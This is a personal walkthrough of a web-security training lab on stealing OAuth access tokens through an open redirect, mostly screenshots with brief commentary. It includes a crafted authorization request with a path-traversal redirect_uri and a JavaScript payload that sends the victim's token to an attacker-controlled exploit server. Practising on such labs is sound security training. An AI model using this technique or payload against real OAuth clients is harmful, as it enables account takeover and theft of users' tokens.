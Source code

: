 # Practitioner Lab 142: Stealing OAuth access tokens via an open redirect

---

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

### **Note**

You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: `wiener:peter`.

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled.png)

By looking at my responses I found this one which showed all the info on the user. This is where I think I can get the info of the admin user at the end .
I went and intercepted a new GET to the /auth and changed the URI to a place inside of the site such as my account just to see if it works.

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%201.png)

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%202.png)

It seems to have worked. Now I will try the same with the admin account.

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%203.png)

Here the token can be seen

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%204.png)

If I add a token here then it shows me the info. 

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%205.png)

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%206.png)

Found the next post which has a redirect of its own. 

Using this I can send it to the exploit server and get the token

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%207.png)

Here it redirected me to it.

```
GET /auth?client_id=q154cpex2uif5g2p1mudg&redirect_uri=https://0a170052031fd5b6806ea882009b00c2.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0f00950396d548809aa75601f60081.exploit-server.net/exploit&response_type=token&nonce=-1857682906&scope=openid%20profile%20email HTTP/2
Host: oauth-0a8b003e0390d5e380d5a6a8023c00d0.oauth-server.net
```

This payload did.

```jsx
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0ae900180448c1cf85108323020e00ac.oauth-server.net/auth?client_id=yholxgmqa2frg0rncqhxs&redirect_uri=https://0a7600b60433c1fc852785310024007e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a26004004d6c190851c84c3014200a4.exploit-server.net/exploit&response_type=token&nonce=-1700103883&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

This may be used to get the hash.

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%208.png)

To copy any url on the request

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%209.png)

Got the token now I add this token in the /me to get the api key

![Untitled](Practitioner%20Lab%20142%20Stealing%20OAuth%20access%20tokens%20%20a7c7b37a2bd34fc3af71968550361d84/Untitled%2010.png)